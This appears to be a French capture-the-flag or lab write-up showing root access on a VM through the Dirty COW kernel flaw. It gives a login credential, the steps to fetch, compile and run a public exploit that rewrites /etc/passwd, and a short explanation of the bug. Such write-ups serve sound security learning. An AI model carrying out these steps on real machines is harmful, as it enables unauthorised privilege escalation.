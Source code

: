 # Dirty COW

On se connecte en ssh à la machine avec les credentials:
```
$ ssh laurie@<IP>
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

# Version KERNEL
On vérifie la version du Kernel
```
$ uname -a
```

On se rend compte que la version de Kernel (3.2.0-91) est vulnérable a la faille Dirty COW.

Après quelques recherches sur le net, on tombe sur ce site qui met à disposition un exploit pour Dirty COW.
```
https://www.exploit-db.com/exploits/40839
```

# Exploit
On copie le fichier ```exploit_dirty.c``` dans la VM.
```
$ scp exploit_dirty.c laurie@<IP>:/home/laurie 
```

On compile
```
$ gcc -pthread exploit_dirty.c -o dirty -lcrypt
```

On exécute
```
$ ./dirty <NEW-PASSWORD>
```

L'éxécutable va modifier le fichier ```/etc/passwd```. Selon la documentation Linux (voir lien), le fichier est constitué de la façon suivante:

```smithj:x:561:561:Joe Smith:/home/smithj:/bin/bash```

Un “x” dans le champ mot de passe indique que les mots de passe sont stockés dans le fichier ``/etc/shadow``.

Lorsqu'on exécute ```dirty```, celui-ci va remplacer le "x" par le hash du mot de passe que nous venons de saisir. Ainsi lors de la comparaison des hash au moment de la connexion, le kernel va comparer le hash présent dans le fichier ```/etc/passwd``` et non plus dans le fichier ```/etc/shadow```.

```
http://www.linux-france.org/article/sys/lame/html/x829.html
```

On exécute ```su``` avec le mot de passe choisi.

On verifie l'uid
```
$ id
```

On se rend compte que nous sommes uid=0. BINGO!!!

On se deplace dans le dossier ```/root``` et avec un ```cat README``` on se rendre compte que nous sommes root sur la machine!


# Explication de la faille
La faille Dirty COW touche le noyau Linux à partir de la version 2.6.22 (Septembre 2007) jusqu'à la version 4.4.25 inclus. Elle a été corrigé depuis la version 4.4.26.
Elle exploite les fonctionnalités Copy-On-Write (COW) du noyau, d'où son nom. C'est par ce biais que le pirate peut atteindre et écrire sur des espaces memoire qui, normalement, ne sont qu'en lecture seule. 
De cette facon, il est possible de faire une élévation de privilèges et devenir root.

La faille Dirty COW a été découverte par Phil Oester.

```
Video Youtube
Lien: https://www.youtube.com/watch?v=kEsshExn7aE
```

